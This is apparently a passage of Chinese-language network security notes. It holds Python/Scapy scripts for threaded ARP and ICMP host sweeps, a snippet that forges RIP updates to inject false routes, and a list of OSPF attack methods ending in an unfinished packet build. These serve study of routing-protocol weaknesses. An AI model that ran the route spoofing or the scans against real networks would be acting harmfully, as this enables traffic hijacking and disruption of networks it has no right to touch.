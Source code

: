 ```python
for i in range(1,254):
    ip = options.tgtHost + '.' + str(i)
    t = Thread(target=send_arp, args=(ip,))
    t.start()
```

## ICMPping
```python
from scapy.all import *
from threading import *
import optparse

def send_icmp(ip):
    icmpPkt = IP(dst=ip)/ICMP()
    res = sr1(icmpPkt, timeout=1, verbose=0)
    if res:
        print("IP:" + ip)

parse = optparse.OptionParser()
parse.add_option('-H', dest='tgtHost', type='string', help='for example:192.168.1')
(options, args) = parse.parse_args()

for i in range(1, 255):
    ip = options.tgtHost + '.' + str(i)
    t = Thread(target=send_icmp, args=(ip,))
    t.start()
```

## RIP
```
RIP组播地址224.0.0.9，使用了UDP协议的520端口。

p = IP(src='172.168.1.1', dst='172.16.1.2')/UDP(sport=520, dport=520)/RIP(cmd=2)
px = RIPEntry(addr='200.200.200.200')/RIPEntry(addr='100.100.100.100', metric=1)
send(p/px)

注意：
如果跨网段欺骗，那么源地址要同一网段
"水平分割"特性

```

## OSPF
```
OSPF基于IP，协议号为89
组播地址224.0.0.5(所有OSPF路由器)和224.0.0.6(DR DBR)

有如下几种攻击方式：
DR/DBR篡改攻击  让OPSF网络重新选举DR/DBR
LSR报文伪造攻击 不断发LSR报文
序列号+1攻击   OSPF通过序列号竞选，两个路由器发生竞争
最大序列号攻击 0X7FFFFFFF
最大年龄攻击 将链路年龄设置为最大  Max Age

>>> packet = Ether(src='00:06:28:b9:85:31',dst='01:00:5e:00:00:05')
>>> packet = packet/Dot1Q(vlan=33)
>>> packet.show()
###[ Ethernet ]###
  dst= 01:00:5e:00:00:05
  src= 00:06:28:b9:85:31
  type= 0x8100
###[ 802.1Q ]###
```